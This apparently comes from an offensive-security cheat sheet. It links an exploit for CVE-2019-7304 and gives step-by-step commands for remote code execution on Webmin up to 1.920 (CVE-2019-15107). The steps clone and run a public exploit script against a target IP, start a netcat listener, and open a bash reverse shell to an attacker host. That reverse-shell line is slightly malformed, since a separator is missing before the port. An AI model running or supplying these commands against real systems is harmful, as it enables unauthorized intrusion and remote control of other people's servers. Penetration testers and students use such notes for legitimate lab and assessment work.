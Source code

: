     - **[CVE-2019-7304](https://www.exploit-db.com/exploits/46361)**


<br />

## Webmin <= 1.920 Remote Code Execution

    ```sh
    git clone https://github.com/MuirlandOracle/CVE-2019-15107
    cd CVE-2019-15107
    python CVE-2019-15107.py <target-ip>

    # -------------------------------------------------

    # Listen on attack machine
    nc -lvnp 4444

    # ------------------------------------------------

    # Reverse Shell on target machine
    bash -i >& /dev/tcp/<attacker-ip>4444 0>&1
    ```